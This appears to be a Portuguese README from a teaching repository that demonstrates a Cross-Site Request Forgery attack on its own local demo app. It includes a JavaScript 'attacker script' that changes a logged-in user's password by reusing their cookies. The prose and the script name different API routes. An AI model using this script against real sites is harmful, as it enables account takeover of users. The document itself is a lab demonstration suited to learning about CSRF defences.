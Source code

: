 # COMO RODAR AS VULNERABILIDADES


## Cross-Site Request Forgery (CSRF)

1 - Necessário fazer login da pagina original

https://github.com/user-attachments/assets/c6f8c93f-76e1-4d5b-81af-a89eb2277225

2 - Após o usuário realizar o login no site oficial, os cookies de autenticação são armazenados no navegador. Esses cookies podem ser aproveitados por outra página web para enviar uma solicitação maliciosa, como, por exemplo, para a rota localhost:5000/api/updateSenha.


https://github.com/user-attachments/assets/af4c2424-6f6b-4a90-bf39-9a448ca09916

3 - Dessa forma, o cookie do usuário autenticado é enviado ao servidor na solicitação, permitindo que um atacante altere a senha do usuário de maneira maliciosa, explorando a ausência de proteções adequadas, como validação de tokens CSRF.

Exemplo do script do atacante:
```js
      const hackerAlteraSenha = async () => {
        fetch("http://localhost:5000/api/userPassword", {
          method: "PUT",
          credentials: "include",
          headers: {
            "Content-Type": "application/json",
          },
          body: JSON.stringify({
            novaSenha: "senhahackeada",
          }),
        })
          .then((res) => {
            if (!res.ok) {
              return res.json().then((data) => {
                throw new Error(data.message || "Erro desconhecido");
              });
            }
            return res.json();
          })
          .then((data) => {
            if (data.success) {
              console.log({ data });

              alert("Senha alterada!");
            }
          })
          .catch((error) => {
            console.error("Erro:", error.message);
          });
      };
```
4 - Conclusão, no banco de dados a senha do usuário foi alterada.

![image](https://github.com/user-attachments/assets/5cb42999-9207-4030-8a84-5be76804a93d)

